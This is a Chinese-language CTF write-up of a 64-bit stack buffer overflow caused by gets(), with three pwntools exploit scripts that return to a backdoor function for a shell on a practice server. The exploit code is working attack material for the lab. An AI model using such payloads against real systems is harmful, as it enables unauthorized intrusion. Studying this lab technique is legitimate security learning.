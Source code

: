 # 题目

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743409613424-2cc955a6-9fbe-4707-b95c-5dfbf3b2e457.png)

# 方法一

常规，启动靶机，扔进虚拟机checksec

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743409672884-13470c2c-c28b-429c-b921-351b49a0c621.png)

64位，没有栈保护

扔进IDA（64位），找到main，F5反编译

如下

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743409767701-5eab1431-2cf3-4bbb-8c12-dffa388642b1.png)

其他没啥用，我们看到有gets函数（gets函数不会检查输入字符串的长度，若用户输入的字符串长度超过了 `str` 所指向数组的大小，就会发生缓冲区溢出。）

gets若没有遇到 \n 结束，则会无限读取，没有上限。

gets函数这行的意思是它会把我们在“please input”后输入的东西放进&s中（即gets函数的缓冲区）

我们双击s

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743410475555-3082b32a-cd70-4e55-9088-a748f5a76bd7.png)

自上往下从第一个函数s到最后一个函数s的地址（都是标蓝的）便是缓冲区大小

我们发送字节数据塞满它，然后把它的后门函数写入，我们就拿到了他的shell

从第一个s往下数到s，也可以直接用左边的F（在十六进制中是15）减去“s”左边的0即得大小为15

然后我们按Shift+F12打开string窗口，一键找出所有的字符串，去寻找它的后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743411597883-a4994994-94ed-4548-88fb-35de7ffc6089.png)

我们看到system和/bin/sh

system点进去没啥东西，我们双击点进/bin/sh

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743411658700-37edfef5-29c9-4b7b-a819-d9151f607d74.png)

然后直接按Ctrl+x查看是哪里调用了它

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743411697605-cbd4aa2f-69f1-4652-b57f-4932a67f4006.png)

确定

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743413518856-737f1223-c401-4352-9c1e-48cfc77f7d03.png)

发现是fun函数，直接把401186（fun函数地址）复制下来

然后返回虚拟机编写exp

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743421583064-d289e43c-f0e9-410e-aa4e-df63472aa00e.png)

代码如下

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",29132)

#定义 payload
payload = b'a' * 23 +p64(0x40118A)+ p64(0x401186)

#发送payload
r.sendline(payload)

#获取靶机交互式终端：
r.interactive()
```

注：这里直接塞字节数据和填后门函数地址是不行的

觉得自己脚本没写错就要考虑堆栈平衡（64位系统）：

需要找lea的地址或者该函数结束即retn的地址,写在(空括号内)

payload = b'a' * 23 + ()+ p64(0x401198) ——这是没有考虑堆栈平衡时的payload（减去+（））

这里我们找到的后门函数地址是fun的

我们拖动IDA上方蓝条

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743421976471-4b187245-b9a9-4a9e-b4bb-1655171d63fa.png)

找到fun函数所在地址

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743422016263-3d89c2c1-8e61-4d66-a64b-a527c0d4f425.png)

注：直接拖动找（在蓝色区域范围内），或者是在上面找到后门函数的时候（此页面）点击这个白色小箭头，即可来到fun函数附近（注:在汇编页面的时候拖，而不是c语言）

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743422216626-3351f1f6-ce0d-4782-832f-6deb73e20f61.png)

我上面填的地址是lea的，你们可自行尝试retn的地址（fun函数内的）

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743421716582-671a459c-ee01-4168-88a1-47e65a34280d.png)

# 方法二

其他步骤基本同上，只是塞字节数据时没有加上返回地址大小

（对比一下不同方法的exp就知道区别了，方法三同理）

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743413708112-2f2c1076-ee84-42b1-b519-983d701debbc.png)

代码如下

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",29034)

#定义 payload
payload = b'a' * 15+ p64(0x401186)
#注：b前缀表示这是一个字符串
#b'a' 代表一个包含单个字节 a 的字节串
#''里的字母可替换成任意其他字符
#只要将其表示为字符串即可
#其实b'a' * 15就是我们塞进去的字节数据
#然后因为这个程序是64位的，所以我们写成p64（32位的即写成p32）
#p64 函数的作用是把一个64位的整数（以十六进制表示）转换为对应的 8 字节小端序字节串
#p64（）内的即上面找到的后门函数地址，我们通常用Python编写脚本
#因此有以下规定
#二进制：加 0b 或者 0B，例如 0b1010。
#八进制：加 0o 或者 0O，例如 0o12。
#十进制：无需加前缀，直接写数字，例如 10。
#十六进制：加 0x 或者 0X，例如 0xA。

#发送payload
r.sendline(payload)

#获取靶机交互式终端：
r.interactive()
```

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743413663240-9661cc3d-b1b5-42b7-8bf8-dbf45da67585.png)

然后常规，得出flag

# 方法三

这里直接在方法一没有堆栈平衡时的payload中后门函数后直接+1

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",29034)

#定义 payload
payload = b'a' * 23 + p64(0x401186+1)

#发送payload
r.sendline(payload)

#获取靶机交互式终端：
r.interactive()
```

# 更新：

于2025.3.31